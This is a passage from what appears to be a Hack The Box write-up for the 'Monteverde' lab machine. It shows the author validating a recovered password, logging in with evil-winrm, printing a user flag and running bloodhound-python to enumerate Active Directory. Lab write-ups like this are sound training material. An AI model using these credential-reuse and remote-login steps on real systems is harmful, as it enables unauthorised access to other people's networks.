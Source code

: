 Since we found this in mhope's folder we can safely assume that this password belongs to them.

We can use nxc to confirm that the credentials are valid. (they are!)

```bash
mhope / 4n0therD4y@n0th3r$
```

Running the creds against winrm protocol using nxc also reveals that the credentials are also valid there.

Logging into the box using evil-winrm

```bash
~/htb/boxes/OSCP-PREP/Monteverde ❯ evil-winrm -i MEGABANK.LOCAL -u mhope -p '4n0therD4y@n0th3r$'                                                                                                   
                                                                                                                                                                                                   
Evil-WinRM shell v3.7                                                                                                                                                                              
                                                                                                                                                                                                                                                                                                        
*Evil-WinRM* PS C:\Users\mhope\Documents> whoami                                                                                                                                                   
megabank\mhope
```

user.txt: 5d0c9f63d1327842f02bd437f5b92dd2

## Post-Exploitation

### mhope->Administrator

I then proceed to run a bloodhound ingestor so I can get an overview of what the AD environment is like. Probably should have used my latest creds but it doesn't make a difference.

```bash
~/htb/boxes/OSCP-PREP/Monteverde/bh ❯ bloodhound-python -d MEGABANK.LOCAL -u 'SABatchJobs' -p 'SABatchJobs' --zip -c All -ns 10.129.228.111
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: megabank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: MONTEVERDE.MEGABANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: MONTEVERDE.MEGABANK.LOCAL
INFO: Found 13 users
INFO: Found 65 groups
INFO: Found 2 gpos
INFO: Found 9 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: MONTEVERDE.MEGABANK.LOCAL
INFO: Done in 01M 11S
INFO: Compressing output into 20250322202058_bloodhound.zip
```
